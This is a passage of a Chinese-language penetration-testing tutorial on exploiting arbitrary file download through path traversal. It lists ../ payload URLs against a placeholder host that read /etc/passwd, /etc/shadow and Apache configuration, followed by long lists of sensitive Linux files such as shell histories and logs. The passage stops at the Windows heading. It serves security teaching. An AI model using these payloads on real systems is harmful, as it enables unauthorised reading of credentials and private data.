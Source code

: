 # 14.路径遍历漏洞三

如果系统存在**任意文件下载漏洞**，那么作为一个渗透测试工程师，怎么才能够成功入侵系统呢？

> 漏洞URL：http://example.com/download?file=backup.zip

##14.1 /etc/passwd & /etc/shadow

 **/etc/passwd**和**/etc/shadow**是linux系统下的存储用户与密码的文件，虽然密码是加密过的，我们不烦尝试把它们下载下来。
 
首先，我们先使用**../**进行不断地尝试，使它指向根目录。我们可以依次使用以下路径进行尝试：
 ```http
http://example.com/download?file=../../etc/passwd
http://example.com/download?file=../../../etc/passwd
http://example.com/download?file=../../../../etc/passwd
http://example.com/download?file=../../../../../etc/passwd
http://example.com/download?file=../../../../../../etc/passwd
http://example.com/download?file=../../../../../../../etc/passwd
 ```
 
只要系统存在**任意文件下载漏洞**，且权限允许的情况下，使用不同个数的**../**不断地进行尝试，我们最终总会返回到根目录，然后下载/etc/passwd文件。

当然，有安全意识的运维人员，可能并不会为Web服务器赋予root等系统管理员权限，所以会导致我们下载失败，这时候，我们尝试下载一些低权限的文件并确认漏洞可用，假如Web应用运行在Apache下，那么我们可以肯定Apahce对其自己的配置文件必然有读权限，所以我们可以尝试下载Apache的配置文件,例如：

> http://example.com/download?file../../../../../etc/httpd/conf/httpd.conf

以下罗列以下在Linux环境下的敏感文件，由于Linux版本不尽相同，此内容仅供参考。


##14.2 Linux敏感文件路径

**用户与密码**
```
/etc/passwd
cat /etc/shadow
```

**环境变量**
```
/etc/profile
/etc/bashrc
~/.bash_profile
~/.bashrc
~/.bash_logout
```
**用户操作历史记录**
```
~/.bash_history
~/.nano_history
~/.atftp_history
~/.mysql_history
~/.php_history
```
**日志文件**
```
/etc/httpd/logs/access_log
/etc/httpd/logs/access.log
/etc/httpd/logs/error_log
/etc/httpd/logs/error.log
/var/log/apache2/access_log
/var/log/apache2/access.log
/var/log/apache2/error_log
/var/log/apache2/error.log
/var/log/apache/access_log
/var/log/apache/access.log
/var/log/auth.log
/var/log/chttp.log
/var/log/cups/error_log
/var/log/dpkg.log
/var/log/faillog
/var/log/httpd/access_log
/var/log/httpd/access.log
/var/log/httpd/error_log
/var/log/httpd/error.log
/var/log/lastlog
/var/log/lighttpd/access.log
/var/log/lighttpd/error.log
/var/log/lighttpd/lighttpd.access.log
/var/log/lighttpd/lighttpd.error.log
/var/log/messages
/var/log/secure
/var/log/syslog
/var/log/wtmp
/var/log/xferlog
/var/log/yum.log
/var/run/utmp
/var/webmin/miniserv.log
/var/www/logs/access_log
/var/www/logs/access.log
/var/lib/dhcp3/
/var/log/postgresql/
/var/log/proftpd/
/var/log/samba/
```

##14.3 Windows敏感文件路径